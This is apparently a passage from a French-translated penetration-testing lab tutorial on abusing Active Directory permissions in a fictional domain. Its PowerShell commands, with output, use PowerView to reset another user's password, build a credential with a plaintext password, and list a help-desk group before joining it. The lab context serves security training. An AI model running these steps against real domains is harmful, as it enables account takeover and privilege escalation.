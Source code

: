 #### Modification du mot de passe de l'utilisateur

  Modification du mot de passe de l'utilisateur

```
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'damundsen'
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset

```

Nous pouvons voir que la commande s'est terminée avec succès, en modifiant le mot de passe de l'utilisateur cible tout en utilisant les informations d'identification que nous avons spécifiées pour l' `wley`utilisateur que nous contrôlons. Ensuite, nous devons effectuer un processus similaire pour nous authentifier en tant `damundsen`qu'utilisateur et nous ajouter au `Help Desk Level 1`groupe.

#### Création d'un objet SecureString à l'aide de damunsen

  Création d'un objet SecureString à l'aide de damunsen

```
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)

```

Ensuite, nous pouvons utiliser la fonction [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) pour nous ajouter au groupe cible. Nous pouvons d'abord confirmer que notre utilisateur n'est pas membre du groupe cible. Cela peut également être fait à partir d'un hôte Linux en utilisant le `pth-toolkit`.

#### Ajout de damunsen au groupe d'assistance de niveau 1

  Ajout de damunsen au groupe d'assistance de niveau 1

```
PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members

CN=Stella Blagg,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Marie Wright,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Jerrell Metzler,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Evelyn Mailloux,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Juanita Marrero,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Joseph Miller,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Wilma Funk,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Maxie Brooks,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Scott Pilcher,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Orval Wong,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=David Werner,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Alicia Medlin,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Lynda Bryant,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Tyler Traver,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Maurice Duley,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=William Struck,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Denis Rogers,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Billy Bonds,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Gladys Link,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Gladys Brooks,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Margaret Hanes,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Michael Hick,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Timothy Brown,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Nancy Johansen,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
```